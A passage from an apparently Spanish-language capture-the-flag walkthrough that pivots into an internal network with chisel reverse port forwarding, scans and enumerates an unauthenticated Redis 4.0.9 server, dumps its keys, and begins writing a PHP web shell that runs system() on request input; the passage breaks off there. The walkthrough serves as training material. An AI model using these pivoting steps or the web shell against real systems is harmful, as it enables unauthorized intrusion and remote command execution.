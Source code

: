 1. En la maquina victima creamos un cliente 

    ```bash
    ./chisel client 10.10.14.29:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
    ```

Desde nuestra maquina de atacante podemos con firefox connectarnos a 
```bash
 http://localhost 
```
 y podemos ver la web del puerto 80 de la 172.19.0.3.
A demas podemos lanzar un 
```bash
 nmap -sCV -p6379 127.0.0.1 
```
. En el codigo fuente de la pagina web vemos funcciones JS que registran las veces que
cargamos la pagina y el nmap nos muestra un Redis 4.0.9.

### Redis {-}

Como hay un **redis**, S4vi tira directo de la biblia [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) y seguimos los 
siguientes pasos.

1. Installamos redis-tools

    ```bash
    apt install redis-tools
    ```

1. Miramos de lanzar commandos

    ```bash
    nc 127.0.0.1 3679

    INFO
    client list
    config get *
    ```

1. Intentamos dumpear la base de datos

    ```bash
    select 0
    keys *
    get hits
    ```

Aqui podemos ver que hay un veinculo entre la web y la base de datos redis

1. Creamos un fichero php

    ```php



    <?php
        system($_REQUEST['cmd']);
    ?>
